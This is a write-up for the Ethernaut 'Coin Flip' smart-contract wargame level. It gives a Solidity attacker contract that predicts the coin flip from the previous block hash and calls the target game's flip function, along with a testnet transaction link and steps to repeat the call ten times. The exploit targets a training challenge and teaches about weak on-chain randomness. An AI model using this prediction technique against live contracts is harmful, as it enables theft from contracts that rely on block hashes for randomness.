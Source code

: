 # Coin Flip

## Level 3

https://ethernaut.openzeppelin.com/level/0x90501cC20b65f603f847398740eaC4C9BE4873a9

## Solution:

Network: Polygon Mumbai

Tx: https://mumbai.polygonscan.com/tx/0x6d96a372cf42a6ad0683317cd9a67dcb5e52022c779f80aa81f09a277a188c2a

## Code

```
pragma solidity ^0.8.0;

interface ICoinFlipGame {
    function flip(bool) external returns (bool);
}

contract CoinFlipGame {

  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function flip(address coinGame) public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert("oh man");
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    bool value = ICoinFlipGame(coinGame).flip(side);
    require(value,"fail transaction");
  }
}
```

## Steps

With the address of the instance created call the flip function of this contract. It is required to be done 10 times.

> await CoinFlipGame.flip(<instanceAddress>)
